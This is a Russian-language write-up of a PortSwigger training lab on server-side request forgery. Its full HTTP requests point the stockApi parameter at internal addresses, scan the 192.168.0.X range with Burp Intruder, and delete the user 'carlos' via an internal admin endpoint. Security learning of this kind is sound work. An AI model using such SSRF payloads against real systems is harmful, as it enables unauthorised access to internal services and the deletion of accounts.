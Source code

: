 ```yaml
---
title: "Basic SSRF against another back-end system"
date: 2025-07-22
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice/ssrf-apprentice/ssrf/lab-basic-ssrf-against-backend-system"
classes: wide
---
```


Эта лаба содержит уязвимость **SSRF** (Server-side request forgery).

Для прохождения лабы нам нужно найти `ip`-адрес бекенд сервиса, на котором расположена панель администратора `/admin` на порту `8080`, а затем удалить пользователя `carlos`.

Мы знаем, что адрес сервиса начинается с `192.168.0.X` и располагается на порту `8080`.

```
https://0a8c001c03be57138111448800b200f6.web-security-academy.net/
```

## Solution

```http
POST /product/stock HTTP/2
Host: 0a8c001c03be57138111448800b200f6.web-security-academy.net
Cookie: session=AiSe3EMbwjlxeqc4evXRCR4B3leJ8qOA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8c001c03be57138111448800b200f6.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a8c001c03be57138111448800b200f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

Подставим предполагаемый адрес в параметр `stockApi`:

```http
POST /product/stock HTTP/2
Host: 0a8c001c03be57138111448800b200f6.web-security-academy.net
Cookie: session=AiSe3EMbwjlxeqc4evXRCR4B3leJ8qOA
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8c001c03be57138111448800b200f6.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: https://0a8c001c03be57138111448800b200f6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=http://192.168.0.1:8080/admin
```

Получили ответ:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 19

"Missing parameter"
```

Теперь нужно перебрать значения от `2` до `255`, пока не получим код `200`. Для этого можно использовать `Intruder` в `Burp Suite`.

Перебором `ip` адресов я нашел, что нужный нам — это `192.168.0.53`. Получим код страницы с админ панелью с помощью запроса на адрес `http://192.168.0.53:8080/admin`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_another_back-end_system/1.png){: height="200" .align-center}

Для удаления пользователя отправим запроса на адрес `http://192.168.0.53:8080/admin/delete?username=carlos` и затем проверим ответ:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Basic_SSRF_against_another_back-end_system/2.png){: height="200" .align-center}
